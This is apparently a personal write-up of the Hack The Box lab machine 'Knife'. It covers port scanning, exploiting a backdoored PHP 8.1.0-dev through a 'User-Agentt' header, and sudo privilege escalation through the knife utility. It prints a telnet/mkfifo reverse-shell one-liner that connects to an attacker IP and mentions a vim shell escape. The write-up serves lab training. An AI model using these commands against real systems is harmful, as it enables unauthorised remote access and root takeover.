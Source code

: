 ```yaml
---
Started: 11-07-25 | 09:04
Ended: 11-07-25 | 11:22
---
```


#CTF/HTB/Linux/Easy

# Given

Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell.

## IP

10.10.10.242

# Writeup

## Enumeration

I started with running Rustscan really quick to see what ports were open. I also had a full Nmap scan running in the background. I got two open ports:

- SSH(22)
- HTTP(80)

I started looking at port 80. It seemed to be a Linux based web server running `Apache/2.4.41 (Ubuntu)`. There's a website on it called `Emergent Medical Idea`.
There weren't any creds left behind in the source code, nor were there any working links. I started looking at the tech stack before going ahead with any sort of directory busting.

![](Assets/Pasted%20image%2020250711095943.png)

Aside from the version of Apache and what type of server this was, I got the technology the site was based on and version:

- PHP 8.1.0-dev

## Exploit

I ran this through `searchsploit` and got a hit on a Remote Code Execution vulnerability.

![](Assets/Pasted%20image%2020250711100152.png)

** Check out the details of the vulnerability on [exploitdb](https://www.exploit-db.com/exploits/49933)

## Foothold

Reading through the python script, it seemed use an additional request header called `User Agentt` to inject commands to the web server.

![](Assets/Pasted%20image%2020250711113836.png)

![](Assets/Pasted%20image%2020250711102856.png)

This isn't a proper shell though, so I had to create a reverse shell to my machine. I used [revshells](www.revshells.com) to generate a telnet based script and have it connect to my netcat listener.

```shell
TF=$(mktemp -u);mkfifo $TF && telnet 10.10.16.2 4443 0<$TF | sh 1>$TF
```

This got me a basic shell onto the web server. I then had to upgrade it.

The user flag is in james's home directory

![](Assets/Pasted%20image%2020250711103147.png)

## Privilege Escalation

Now that I was in the web server as `james` I needed to escalate my privileges to get to `root`. I started with checking james's permissions on the server with `sudo -l`. This shows that james can run a script as root

![](Assets/Pasted%20image%2020250711103220.png)

I tried to add code to the file `knife`, and tried to replace it. Those didnt really work. So I had to google what knife was (and I tried hard to not look at writeups). I looked through gtfobins, found knife, and a simple way to escalate my privileges on this machine.

![](Assets/Pasted%20image%2020250711111918.png)

This got my shell upgraded to root, and I proceeded to get the flag in the home directory.

![](Assets/Pasted%20image%2020250711112110.png)

# Extra Notes

What if GTFO bins didn't have a privesc for Knife?

I first would need to know what knife is in the first place. Googling this got me [here](https://docs.chef.io/workstation/knife_setup/). TLDR: Knife is a command line utility that was created to communicate with Chef, which is a basically an automation platform.

## VIM Escape

The `knife data bag` subcommand allows users to interact with global variables as JSON objects.

I looked through the knife docs, and tried to create a bag, which I could hopefully edit with vim later. That didn't really work. 

![](Assets/Pasted%20image%2020250711120321.png)

So I tried to get the same command into vim like 0xdf does in his walkthrough, that didn't work either despite me restarting the server. 

Ideally, we should be able to edit the file on vim, and then run commands through vim's command line by running

```shell
!/bin/bash
```

# References

[0xdf - knife](https://0xdf.gitlab.io/2021/08/28/htb-knife.html#shell-as-root)